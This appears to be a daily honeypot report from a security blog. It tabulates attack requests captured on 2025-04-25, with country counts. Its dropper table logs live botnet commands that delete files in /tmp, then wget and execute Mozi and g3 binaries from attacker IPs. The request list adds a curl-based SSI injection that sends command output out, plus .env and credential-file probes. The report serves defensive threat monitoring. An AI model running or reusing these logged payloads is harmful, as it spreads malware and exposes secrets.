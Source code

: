 ```yaml
---
title: "Report: 2025-04-25 "
date: 2025-04-25
desciption: "Report: 2025-04-25" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-25 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 45 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2001 requests were recorded during the day, originating from 4 different countries, with a peak of 584 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |
| GB               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                     |
|:---------------|:------------------------------------------------------------------------------------------------------------|
| 123.4.49.93    | GET /shell?cd+/tmp;rm+-rf+*;wget+http://123.4.49.93:48403/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1 |
| 83.150.218.92  | GET /shell?cd+/tmp;rm+-rf+g3;nohup+wget+http:/\x5C/83.150.218.222/g3;chmod+777+g3;./g3+jaws; HTTP/1.1       |
| 83.150.218.222 | GET /shell?cd+/tmp;rm+-rf+g3;nohup+wget+http:/\x5C/83.150.218.222/g3;chmod+777+g3;./g3+jaws; HTTP/1.1       |
| 83.150.218.222 | GET /shell?cd+/tmp;rm+-rf+g3;nohup+wget+http:/\x5C/83.150.218.92/g3;chmod+777+g3;./g3+jaws; HTTP/1.1        |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                    |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------|
| 214 |                     1 | GET /config/index?time=1745596450565297336 HTTP/1.1                                                                        |
| 215 |                     1 | GET /api/bin/440393?time=1745597181616067725 HTTP/1.1                                                                      |
| 216 |                     1 | POST /api/user/binLookup?time=1745597182207159339 HTTP/1.1                                                                 |
| 217 |                     1 | GET /api/bin/440393?time=1745597551802198136 HTTP/1.1                                                                      |
| 218 |                     1 | POST /api/user/binLookup?time=1745597552192685009 HTTP/1.1                                                                 |
| 219 |                     1 | \x04\x01\x01\xBB@\xE9\xA3h\x00                                                                                             |
| 220 |                     1 | \x04\x01\x01\xBB@\xE9\xA3cadm:12345\x00                                                                                    |
| 222 |                     1 | GET /config/index?time=1745595063849169545 HTTP/1.1                                                                        |
| 224 |                     1 | GET /config/index?time=1745595445469337750 HTTP/1.1                                                                        |
| 225 |                     1 | GET /config/index?time=1745596414112870783 HTTP/1.1                                                                        |
| 226 |                     1 | GET /api/bin/440393?time=1745597117308227144 HTTP/1.1                                                                      |
| 227 |                     1 | POST /api/user/binLookup?time=1745597117816093019 HTTP/1.1                                                                 |
| 228 |                     1 | GET /api/bin/440393?time=1745598369839750191 HTTP/1.1                                                                      |
| 229 |                     1 | POST /api/user/binLookup?time=1745598370241415990 HTTP/1.1                                                                 |
| 308 |                     1 | POST /api/user/binLookup?time=1745598830556946095 HTTP/1.1                                                                 |
| 344 |                     1 | GET /VabC HTTP/1.1                                                                                                         |
| 345 |                     1 | GET /GUyH HTTP/1.1                                                                                                         |
| 348 |                     1 | GET /env.env HTTP/1.1                                                                                                      |
| 355 |                     1 | GET /env.html HTTP/1.1                                                                                                     |
| 356 |                     1 | GET /env/ HTTP/1.1                                                                                                         |
| 357 |                     1 | GET /.env/ HTTP/1.1                                                                                                        |
| 358 |                     1 | GET /.env/.env HTTP/1.1                                                                                                    |
| 359 |                     1 | GET /environment.json HTTP/1.1                                                                                             |
| 361 |                     1 | GET /env.example HTTP/1.1                                                                                                  |
| 363 |                     1 | GET /,env HTTP/1.1                                                                                                         |
| 364 |                     1 | GET /_env HTTP/1.1                                                                                                         |
| 373 |                     1 | GET /settings.cfg HTTP/1.1                                                                                                 |
| 406 |                     1 | GET /wp-includes/ALFA_DATA/alfacgiapi/ HTTP/1.1                                                                            |
| 431 |                     1 | GET /config/index?time=1745597359361746420 HTTP/1.1                                                                        |
| 432 |                     1 | GET /config/index?time=1745598245202688129 HTTP/1.1                                                                        |
| 433 |                     1 | GET /api/bin/440393?time=1745598830073593270 HTTP/1.1                                                                      |
| 440 |                     1 | GET /OdinHttpCall1745563401 HTTP/1.1                                                                                       |
| 441 |                     1 | GET /Odin/http/call1745563401 HTTP/1.1                                                                                     |
| 449 |                     1 | GET /odinhttpcall1745563401 HTTP/1.1                                                                                       |
| 452 |                     1 | GET /api/bin/440393?time=1745601698877915315 HTTP/1.1                                                                      |
| 453 |                     1 | POST /api/user/binLookup?time=1745601699392251016 HTTP/1.1                                                                 |
| 474 |                     1 | GET /incl/image_test.shtml?camnbr=%3C%21--%23exec+cmd%3D%22curl+http%3A%2F%2F107.189.21.38%2F%24%28id%29%22+--%3E HTTP/1.1 |
| 476 |                     1 | GET /settings.inc.php HTTP/1.1                                                                                             |
| 481 |                     1 | GET /staging2/.env HTTP/1.1                                                                                                |
| 487 |                     1 | GET /local.inc.php HTTP/1.1                                                                                                |
| 488 |                     1 | GET /local.ini HTTP/1.1                                                                                                    |
| 491 |                     1 | GET /local.xml HTTP/1.1                                                                                                    |
| 495 |                     1 | \x04\x01\x01\xBB@\xE9\xA3i\x00                                                                                             |
| 496 |                     1 | \x04\x01\x01\xBB@\xE9\xA3jadm:12345\x00                                                                                    |
| 505 |                     1 | GET /parameters.yaml HTTP/1.1                                                                                              |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   584 | GB                 |
|  1 |                   293 | NL                 |
|  2 |                   290 | US                 |
|  3 |                   163 | SC                 |
|  4 |                    97 | PL                 |
|  5 |                    87 | DE                 |
|  6 |                    70 | CN                 |
|  7 |                    64 | BG                 |
|  8 |                    53 | SG                 |
|  9 |                    50 | BE                 |
| 10 |                    48 | IN                 |
| 11 |                    33 | HK                 |
| 12 |                    24 | CA                 |
| 13 |                    21 | CH                 |
| 14 |                    16 | HR                 |
| 15 |                    15 | FR                 |
| 16 |                    10 | KR                 |
| 17 |                     8 | PT                 |
| 18 |                     8 | VN                 |
| 19 |                     7 | RU                 |
| 20 |                     7 | GH                 |
| 21 |                     6 | UA                 |
| 22 |                     6 | TR                 |
| 23 |                     4 | JP                 |
| 24 |                     4 | BR                 |
| 25 |                     4 | AU                 |
| 26 |                     3 | IR                 |
| 27 |                     3 | ZA                 |
| 28 |                     3 | CO                 |
| 29 |                     2 | GE                 |
| 30 |                     2 | TH                 |
| 31 |                     2 | ID                 |
| 32 |                     2 | TW                 |
| 33 |                     2 | LT                 |
| 34 |                     1 | AL                 |
| 35 |                     1 | CZ                 |
| 36 |                     1 | HU                 |
| 37 |                     1 | MC                 |
| 38 |                     1 | NO                 |
| 39 |                     1 | PA                 |
| 40 |                     1 | IT                 |
| 41 |                     1 | BD                 |
| 42 |                     1 | AT                 |
| 43 |                     1 | AO                 |
